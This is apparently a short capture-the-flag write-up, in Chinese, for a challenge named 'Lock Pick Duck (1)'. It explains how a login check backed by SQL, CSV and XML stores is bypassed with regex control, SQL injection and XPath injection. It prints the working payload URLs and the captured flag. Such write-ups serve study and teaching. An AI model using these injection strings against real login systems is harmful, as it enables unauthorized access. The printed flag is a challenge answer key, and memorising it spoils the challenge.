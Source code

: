 # Lock Pick Duck (1)

這題的話，他有`sqldb`, `csvdb`, `xmldb`

然後一開始會隨機產生一堆帳號密碼存進去這些db

接著會讀我們輸入的username, password

有滿足到他的條件就`$flag++`

只要`$flag>=3`最後就會噴第一把FLAG，`$flag==6`就會噴第二把

這邊其實前三個條件都蠻容易的，就是正規表達式可控, SQL Injection, Xpath Injection之類的

最後我的Payload:

`http://trick.fflm.ml/?username=(.*)|'or''='&password=(.*)|'or''=' `

也可以這樣 ` http://trick.fflm.ml/?username=.*&password=.*|'or''='`

FLAG: `vxctf{y0u_d0_kn0w_InjectI0n_101}`
